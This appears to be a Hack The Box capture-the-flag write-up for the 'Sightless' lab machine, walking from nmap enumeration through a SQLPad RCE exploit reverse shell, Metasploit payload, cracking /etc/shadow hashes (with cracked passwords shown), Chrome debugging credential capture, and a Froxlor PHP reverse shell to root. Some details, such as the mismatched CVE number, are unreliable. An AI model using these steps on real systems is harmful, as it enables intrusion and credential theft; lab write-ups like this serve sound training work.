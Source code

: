 ## Hackthebox Sightless Writeup 10.129.21.27

### Nmap enumeration

	Nmap scan report for 10.129.21.27
	Host is up, received reset ttl 63 (0.053s latency).
	Scanned at 2024-09-22 20:12:21 CDT for 71s

	PORT   STATE SERVICE REASON         VERSION
	21/tcp open  ftp     syn-ack ttl 63
	| fingerprint-strings: 
	|   GenericLines: 
	|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.21.27]
	|     Invalid command: try being more creative
	|_    Invalid command: try being more creative
	22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGoivagBalUNqQKPAE2WFpkFMj+vKwO9D3RiUUxsnkBNKXp5ql1R+kvjG89Iknc24EDKuRWDzEivKXYrZJE9fxg=
	|   256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA4BBc5R8qY5gFPDOqODeLBteW5rxF+qR5j36q9mO+bu
	80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-title: Did not follow redirect to **http://sightless.htb/**
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
	SF-Port21-TCP:V=7.94SVN%I=7%D=9/22%Time=66F0C080%P=aarch64-unknown-linux-g
	SF:nu%r(GenericLines,A1,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20F
	SF:TP\x20Server\)\x20\[::ffff:10\.129\.21\.27\]\r\n500\x20Invalid\x20comma
	SF:nd:\x20try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x
	SF:20try\x20being\x20more\x20creative\r\n");
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
	Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.0 (96%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 5.0 - 5.5 (94%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
	No exact OS matches for host (test conditions non-ideal).
	TCP/IP fingerprint:
	SCAN(V=7.94SVN%E=4%D=9/22%OT=21%CT=%CU=31167%PV=Y%DS=2%DC=T%G=N%TM=66F0C0BC%P=aarch64-unknown-linux-gnu)
	SEQ(SP=FC%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)
	SEQ(SP=FE%GCD=1%ISR=103%TI=Z%CI=Z%II=I%TS=C)
	OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
	WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
	ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)
	T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
	T2(R=N)
	T3(R=N)
	T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
	IE(R=Y%DFI=N%T=40%CD=S)
	
From out nmap scan we can see the IP 10.129.21.27 is trying to redirect to http://sightless.htb on port 80. Let's add this to our /etc/hosts file and enumerate the web site on port 80. 

### Adding IP to /etc/hosts

![Hosts](/Sightless/images/hosts-file.png) 

Viewing the source code of sightless landing page we can find a sqlpad subdomain. Let's also add this to our /etc/hosts file and continue with enumeration. Sightless appears to be a development software from reading the home page.

Sightless is also an Enginx Server running on Ubuntu OS. Therefore, php, and html extensions will most likely be common.


![sql subdomain](/Hack_The_Box/Sightless/images/sql-subdomain.png) 

The sqlpad subdomain looks like it might let up execute and run SQL queries. Lets try loading and running xp_cmdshell.

![sqlpad](/Hack_The_Box/Sightless/images/sqlpad.png) 


Enumerating the sqlpad domain with dirsearch returns a manifest.json file that we can view.

![dirsearch](/Hack_The_Box/Sightless/images/dirsearch.png) 

![dirsearch](/Hack_The_Box/Sightless/images/directory-access.png) 

I'm going to see if I can run curl against the url to view the contents.

The manifests file doesn't return any information but clicking the 3 dots on the web page we can see that this is version 6.10 and searching SQLPad exploits we do see one for RCE on github catagorized as [CVE-2022-9444](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944). 


After downloading the github repo to my host machine I run the exploit script without and ags and I can see that it accepts the following arguments:

1. root_url
2. attacker_ip
3. attacker_port

I'm going to start a netcat listener on port 4444

Next I will run on my kali host:
	$ python3 exploit.py http://sqlpad.sightless.htb 10.10.14.X 4444


And we get an initial shell on the machine, it appears we are in a docker container.

![Shell](/Hack_The_Box/Sightless/images/shell.png) 


### Exploitation

Viewing the sqlite db file in /var/lib/sqlpad we can see 2 user accounts.

1. john@sightless.htb
2. admin@sightless.htb

Python isn't installed in the docker container so I'm going to create a metasploit payload so I can transer files.

![Metasploit](/Hack_The_Box/Sightless/images/met-payload.png) 

And transfer the payload to the target.

![Metasploit](/Hack_The_Box/Sightless/images/transfer.png) 


Set up the Metasploit multi / handler

![Metasploit](/Hack_The_Box/Sightless/images/transfer.png) 

After executing my payload on the target I get a meterpreter shell on my attack host.


![Metasploit](/Hack_The_Box/Sightless/images/meterpreter.png) 


I pulled this hash out of the sqlprod db file. I will try to crack it.

$2a$10$cjbITibC.4BQQKJ8NOBUv.p0bG2n*********

I was able to crack the hash with JtR. It appears to be a hash for john. Let's see if I can SSH into the main box and get out of this docker shell.

![JtR](/Hack_The_Box/Sightless/images/hash-crack.png) 

Looking at the /etc/passwrd file we see 3 users with shell access. Root, node, and michael.


![/etc/passwrd](/Hack_The_Box/Sightless/images/passwrd.png) 

Shadow File

![/etc/shadow](/Hack_The_Box/Sightless/images/shadow.png) 

Using unshadow I was able to get root and Michael's hashes. I will now try and crack them. 

$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.

$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/

John successfully cracked both hashes. Let's see if we can login via ssh.

Hashes:

blindside
insaneclownposse


![JtR](/Hack_The_Box/Sightless/images/john.png) 

One of the hashes works to login via SSH to Michael account.

![SSH](/Hack_The_Box/Sightless/images/ssh.png) 

Sightless internal netstat ports listening

127.0.0.1:33060
127::3000
127.0.0.1:3306
127.0.0.1:8080


![Network](/Hack_The_Box/Sightless/images/netstat.png) 
![Network](/Hack_The_Box/Sightless/images/netstat2.png) 




### Privilege Escalation

Searching linpeas output Chrome is running -remote debugging-port=0. This appears exploitable.

I also noticed an additional subdomain. admin when I was parsing linpeas output. I'll add it to my /etc/hosts file. 

![Priv Esc](/Hack_The_Box/Sightless/images/chrome.png) 


I next locally port forwarded all the listening ports on the target to my attack machine.


![SSH Local](/Hack_The_Box/Sightless/images/ssh-local.png) 

Now within firefox I will add them all in.

chrome://inspect/#devices


After adding all the ports and capturing the requests in chrome debugger we find that the login is the following credentials.

Username: admin
Password: ForlorfroxAdmin

![Froxlar login](/Hack_The_Box/Sightless/images/login.png) 


For root I copied a php reverse shell to /tmp on michael's ssh session. 

From froxlor I will now create a new php version and have it set to the command /tmp/shell.php and save. I will then deactive and active the service to trigger my shell and get root access. Don't forget to have a listener on your attack machine.


![tmp shell](/Hack_The_Box/Sightless/images/php-shell.png) 


![Froxlar](/Hack_The_Box/Sightless/images/change-version.png) 

![Froxlar](/Hack_The_Box/Sightless/images/disable.png) 

![Froxlar](/Hack_The_Box/Sightless/images/enable.png) 

We should now get a call back with a root shell on our attack machine.

![Root](/Hack_The_Box/Sightless/images/root.png) 

![Root](/Hack_The_Box/Sightless/images/cleanup.png) 

